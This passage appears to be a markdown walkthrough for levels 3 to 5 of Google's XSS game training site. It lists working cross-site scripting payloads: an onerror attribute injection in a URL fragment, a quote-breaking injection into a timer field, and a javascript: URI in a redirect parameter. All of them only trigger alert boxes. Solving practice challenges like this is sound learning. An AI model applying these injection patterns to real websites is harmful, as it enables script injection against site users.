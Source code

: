 ``` 
https://xss-game.appspot.com/level3/frame#1' onerror='alert("xss")'>
```
![3/6](./3_of_6.png)
### 4/6
- insert into the text field:
``` 
timer=');alert('xss
```
![4/6](./4_of_6.png)
### 5/6
- insert into the email field:
``` 
https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert%28%27xss%27%29
```